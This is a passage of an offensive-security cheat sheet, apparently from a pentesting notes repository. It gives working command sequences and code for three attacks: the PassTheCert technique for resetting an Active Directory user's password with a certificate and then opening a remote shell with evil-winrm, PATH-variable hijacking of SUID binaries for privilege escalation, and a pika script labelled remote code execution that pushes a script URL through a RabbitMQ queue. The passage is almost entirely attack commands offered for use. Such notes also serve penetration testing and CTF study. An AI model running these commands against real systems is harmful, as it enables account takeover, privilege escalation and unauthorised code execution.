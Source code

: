 ### PassTheCert

> https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html

> https://github.com/AlmondOffSec/PassTheCert/tree/main/Python

```c
$ certipy-ad cert -pfx <CERTIFICATE>.pfx -nokey -out <CERTIFICATE>.crt
$ certipy-ad cert -pfx <CERTIFICATE>.pfx -nocert -out <CERTIFICATE>.key
$ python3 passthecert.py -domain '<DOMAIN>' -dc-host '<DOMAIN>' -action 'modify_user' -target '<USERNAME>' -new-pass '<PASSWORD>' -crt ./<CERTIFICATE>.crt -key ./<CERTIFICATE>.key
$ evil-winrm -i '<RHOST>' -u '<USERNAME>' -p '<PASSWORD>'
```

### Path Variable Hijacking

#### Finding accessible SUID Files

```c
$ find / -perm -u=s -type f 2>/dev/null
```

#### Find writeable Paths

```c
$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

#### Add current Directory

```c
$ export PATH=$(pwd):$PATH
```

#### Binary File

```c
$ cd /tmp
$ vi <FILE>
$ chmod +x ./<FILE>
$ PATH=$(pwd):$PATH <SUID_FILE>
```

### pika

#### Remote Code Execution (RCE)

```c
#!/usr/bin/env python

import pika

credentials = pika.PlainCredentials('<USERNAME>', '<PASSWORD>')
parameters = pika.ConnectionParameters('<LHOST>',5672,'/',credentials)
connection = pika.BlockingConnection(parameters)
channel = connection.channel()
channel.basic_publish(exchange='', routing_key='plugin_data', body='http://127.0.0.1:9001/<SCRIPT>')
connection.close()
```
